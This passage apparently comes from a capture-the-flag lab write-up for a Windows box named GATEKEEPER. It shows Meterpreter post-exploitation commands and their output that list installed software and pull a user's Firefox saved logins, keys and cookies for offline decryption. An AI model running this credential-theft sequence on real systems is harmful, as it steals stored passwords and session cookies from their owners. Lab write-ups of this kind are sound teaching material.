 We are now ready to enumerate on meterpreter

    meterpreter > run post/windows/gather/enum_applications
    [*] Enumerating applications installed on GATEKEEPER
    Installed Applications
    ======================
     Name                                                                Version
     ----                                                                -------
     Amazon SSM Agent                                                    2.3.842.0
     Amazon SSM Agent                                                    2.3.842.0
     EC2ConfigService                                                    4.9.4222.0
     EC2ConfigService                                                    4.9.4222.0
     EC2ConfigService                                                    4.9.4222.0
     EC2ConfigService                                                    4.9.4222.0
     Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
     Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
     Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
     Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
     Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
     Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
     Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
     Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
     Mozilla Firefox 75.0 (x86 en-US)                                    75.0
    [+] Results stored in: /home/sloppy/.msf4/loot/20221014124411_default_10.10.134.192_host.application_727443.txt

We see Mozilla Firefox is being run by the local user so we try and gather the creds with this post exploit

    meterpreter > run post/multi/gather/firefox_creds 
    [-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
    [*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\
    [*] Profile: 

    C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
    [+] Downloaded cert9.db: /home/sloppy/.msf4/loot/20221014124456_default_10.10.134.192_ff.ljfn812a.cert_302365.bin
    [+] Downloaded cookies.sqlite: /home/sloppy/.msf4/loot/20221014124456_default_10.10.134.192_ff.ljfn812a.cook_688255.bin
    [+] Downloaded key4.db: /home/sloppy/.msf4/loot/20221014124457_default_10.10.134.192_ff.ljfn812a.key4_588555.bin
    [+] Downloaded logins.json: /home/sloppy/.msf4/loot/20221014124458_default_10.10.134.192_ff.ljfn812a.logi_239746.bin

    [*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default
    meterpreter > 

Now that credentials are dumped, users will be required to grab the Firefox Decrypt tool from Github (https://github.com/unode/firefox_decryp) Instructions are provided on the page, but in short, users will be required to rename the four different outputs from the Firefox_cred module.

After renaming the four files (hint use the above post to see what to rename them too, then run the firefox_decrypt)

